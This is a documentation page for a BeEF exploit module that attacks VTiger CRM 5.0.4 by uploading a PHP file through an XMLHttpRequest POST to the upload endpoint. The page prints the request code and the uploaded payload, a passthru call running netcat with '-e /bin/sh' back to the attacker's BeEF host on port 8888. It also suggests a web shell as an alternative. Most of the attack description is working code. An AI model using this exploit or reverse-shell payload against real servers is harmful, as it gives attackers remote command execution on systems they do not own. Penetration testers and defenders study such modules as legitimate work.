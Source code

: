## Summary

* **Objective**: Exploits VTiger CRM 5.0.4 and uploads a reverse shell
* **Authors**: wade, bm, pipes, xntrik, yorikv
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/vtiger_crm_upload_exploit)

## Internal Working

Uploads a reverse shell PHP file via XMLHttpRequest.

```js
var targeturl = baseurl + '/index.php?module=uploads&action=add2db&return_module=Home&return_action=index';

//..

http_request.open("POST", targeturl, true);
http_request.setRequestHeader("Content-type", "multipart/form-data; boundary=---------------------------PWNED");
http_request.setRequestHeader("Content-length", requestbody.length);
http_request.send(requestbody);
//...
```

The PHP uploaded and executed:
```php
<?php passthru("/bin/nc -e /bin/sh '+beef_host+' 8888"); ?>

```

>If /bin/nc is not installed on the target machine, this will not work. For a start you can try to upload a web shell instead of a reverse shell. The PHP code can be changed in `<beef_path>/modules/exploits/vtiger_crm_upload_exploit/module.rb`

## Feedback

